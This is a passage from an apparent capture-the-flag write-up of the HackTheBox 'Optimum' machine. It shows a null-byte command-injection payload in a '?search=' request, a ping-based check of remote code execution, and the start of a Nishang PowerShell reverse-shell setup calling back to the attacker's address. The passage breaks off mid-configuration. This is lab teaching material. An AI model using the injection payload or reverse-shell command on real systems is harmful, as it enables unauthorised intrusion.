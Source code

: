 ![](https://paper-attachments.dropbox.com/s_63B976EF832897276D24CB4C8AB02A5780DEC6EE03C0771814D9D3FDB835DB6D_1557121092329_image.png)

*%00 null byte is captured in the GET “?search=” request.*

Next we add `/?search=%00{.exec|ping 10.10.14.17` and setup tcpdump to capture the ICMP request.

![](https://paper-attachments.dropbox.com/s_63B976EF832897276D24CB4C8AB02A5780DEC6EE03C0771814D9D3FDB835DB6D_1557121292019_image.png)

## RCE
tcpdump setup:

    tcpdump -i tun0

![](https://paper-attachments.dropbox.com/s_63B976EF832897276D24CB4C8AB02A5780DEC6EE03C0771814D9D3FDB835DB6D_1557121325320_image.png)

*successfully captured an ICMP and at this point we have Remote Code Execution (RCE).*

# RCE to Reverse Shell (Nishang)
At this point since we have remote code execution via the `exec` we can now setup a reverse shell using Nishang.

Nishang Github Link: https://github.com/samratashok/nishang

![](https://paper-attachments.dropbox.com/s_63B976EF832897276D24CB4C8AB02A5780DEC6EE03C0771814D9D3FDB835DB6D_1557121581020_image.png)

![](https://paper-attachments.dropbox.com/s_63B976EF832897276D24CB4C8AB02A5780DEC6EE03C0771814D9D3FDB835DB6D_1557121608302_image.png)

    cd Shells

![](https://paper-attachments.dropbox.com/s_63B976EF832897276D24CB4C8AB02A5780DEC6EE03C0771814D9D3FDB835DB6D_1557121638175_image.png)

*use the* `*Invoke-PowerShellTcp.ps1*`

copy `*Invoke-PowerShellTcp.ps1*` to working directory

    cp Invoke-PowerShellTcp.ps1 ~/Documents/htb/boxes/optimum

![](https://paper-attachments.dropbox.com/s_63B976EF832897276D24CB4C8AB02A5780DEC6EE03C0771814D9D3FDB835DB6D_1557121772690_image.png)

## Configure Invoke-PowerShellTcp.ps1
Checking out the powershell script:

![](https://paper-attachments.dropbox.com/s_63B976EF832897276D24CB4C8AB02A5780DEC6EE03C0771814D9D3FDB835DB6D_1557121819503_image.png)

The example shows the syntax we wnat to use:

    Invoke-PowerShellTcp -Reverse -IPAddress [ipv6 address] -Port 4444

![](https://paper-attachments.dropbox.com/s_63B976EF832897276D24CB4C8AB02A5780DEC6EE03C0771814D9D3FDB835DB6D_1557121900630_image.png)

*copy that go to the bottom of the script and paste and change to target:*

![](https://paper-attachments.dropbox.com/s_63B976EF832897276D24CB4C8AB02A5780DEC6EE03C0771814D9D3FDB835DB6D_1557122335441_image.png)
